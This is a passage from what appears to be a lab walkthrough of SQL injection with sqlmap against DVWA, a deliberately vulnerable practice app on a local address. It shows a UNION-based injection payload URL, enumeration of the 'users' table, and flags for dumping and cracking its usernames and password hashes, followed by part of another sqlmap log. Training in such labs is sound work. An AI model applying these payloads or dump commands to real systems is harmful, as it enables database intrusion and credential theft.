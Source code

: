 ```txt
    Payload: http://172.17.0.2:80/vulnerabilities/sqli/?id=' UNION ALL SELECT CONCAT(0x7176707671,0x7853497561634f616d655a55687979796c716d616274684c417058576a5664656a6d45426557686e,0x717a7a6a71),NULL#&Submit=Submit
---
[13:46:37] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[13:46:37] [INFO] fetching columns for table 'users' in database 'dvwa'
[13:46:37] [WARNING] reflective value(s) found and filtering out
Database: dvwa
Table: users
[8 columns]
+--------------+-------------+
| Column       | Type        |
+--------------+-------------+
| user         | varchar(15) |
| avatar       | varchar(70) |
| failed_login | int(3)      |
| first_name   | varchar(15) |
| last_login   | timestamp   |
| last_name    | varchar(15) |
| password     | varchar(32) |
| user_id      | int(6)      |
+--------------+-------------+
```
Finally, we can list the contents of the columns of a specific table (and "decode" the hashes associated with the contents of these columns), for this purpose `-D dvwa -T users -C user,password --dump`

```txt
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.12#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:48:40 /2023-12-01/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[13:48:40] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid parameter values so sqlmap could be able to run properly
[13:48:40] [INFO] testing connection to the target URL
[13:48:40] [INFO] checking if the target is protected by some kind of WAF/IPS
[13:48:40] [INFO] testing if the target URL content is stable
[13:48:41] [INFO] target URL content is stable
[13:48:41] [INFO] testing if URI parameter '#1*' is dynamic
[13:48:41] [WARNING] URI parameter '#1*' does not appear to be dynamic
[13:48:41] [INFO] heuristic (basic) test shows that URI parameter '#1*' might be injectable (possible DBMS: 'MySQL')
[13:48:41] [INFO] heuristic (XSS) test shows that URI parameter '#1*' might be vulnerable to cross-site scripting (XSS) attacks
[13:48:41] [INFO] testing for SQL injection on URI parameter '#1*'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[13:48:41] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:48:41] [WARNING] reflective value(s) found and filtering out
```